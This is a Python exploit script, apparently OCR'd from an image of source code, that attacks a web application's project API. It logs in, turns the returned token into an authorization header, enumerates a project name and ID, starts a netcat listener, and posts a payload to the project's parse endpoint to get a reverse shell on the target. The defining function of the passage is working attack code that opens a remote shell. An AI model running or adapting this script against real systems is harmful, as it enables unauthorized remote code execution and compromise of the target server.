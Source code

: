     #Create a header out of auth token (yep, it's bad as it looks)
    dict = json.loads(r2.text)
    temp_token = 'Token '
    temp_token2 = json.dumps(dict['token']).strip('"')
    auth_token = {}
    auth_token['Authorization'] = temp_token + temp_token2

    #Get the project list
    print("[*] Getting the project list")
    r3 = r.get(url + "/api/project/index", headers=auth_token, allow_redirects=True)
    time.sleep(3)

    if (r3.status_code != 200):
        print("[!] Something went wrong! Maybe the token is corrupted?")
        quit();

    #Parse the project name for a request (yep, it's worse than earlier)
    dict = r3.text # [{'name': 'test'}]
    dict2 = json.dumps(dict)
    dict3 = json.loads(dict2)
    dict3 = json.loads(dict3)
    name = dict3[0]['name']
    print("[*] Found project: " + name)

    #use the id to check the project
    print("[*] Getting the ID of the project to build the URL")
    r4 = r.get(url + "/api/project/" + name + "/build", headers=auth_token, allow_redirects=True)
    time.sleep(3)
    if (r4.status_code != 200):
        print("[*] Something went wrong! I can't reach the found project!")
        quit();

    #format the json to dict
    dict = r4.text
    dict2 = json.dumps(dict)
    dict3 = json.loads(dict2)
    dict3 = json.loads(dict3)
    id = dict3['id']
    print("[*] Found ID of the project: ", id)
    time.sleep(1)

    #netcat listener
    print("[*] Setting up a netcat listener")
    listener = subprocess.Popen(["nc", "-nvlp", self.localport])
    time.sleep(3)

    #exec the payload
    print("[*] Executing reverse shell payload")
    print("[*] Watchout for shell! :)")
    r5 = r.post(url + "/api/project/" + str(id) + "/parse", data=payload, headers=auth_token, allow_redirects=True)
    listener.wait()

    if (r5.status_code == 200):
        print("[*] It worked!")
        listener.wait()
    else:
        print("[!] Something went wrong!")
        listener.terminate()
def __init__(self, target_ip, target_port, localhost, localport):
    self.target_ip = target_ip
    self.target_port = target_port
    self.localhost = localhost
    self.localport = localport
